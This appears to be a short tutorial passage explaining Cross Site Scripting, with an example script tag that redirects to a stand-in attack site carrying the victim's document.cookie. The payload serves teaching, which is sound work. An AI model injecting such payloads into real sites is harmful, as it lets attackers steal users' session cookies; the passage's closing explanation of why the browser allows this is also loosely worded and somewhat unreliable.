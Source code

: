 The first example of an attack is the Cross Site Scripting attack (XSS). This is allows the attacker to insert a JS         <Script> tag into a form. When the browser renders the html in the public post, the browser will automatically execute the JS. 

For example, if you were to type
   <script> window.location= 'http://www.someattacksite.com/?cookie='+document.cookie </script>

The browser will render the message, send the user to the attack page, and will steal their cookie for that site. Normally, one cannot steal a users cookie, but since the original site has been the one to redirect, the browser considers it to be an original part of the site.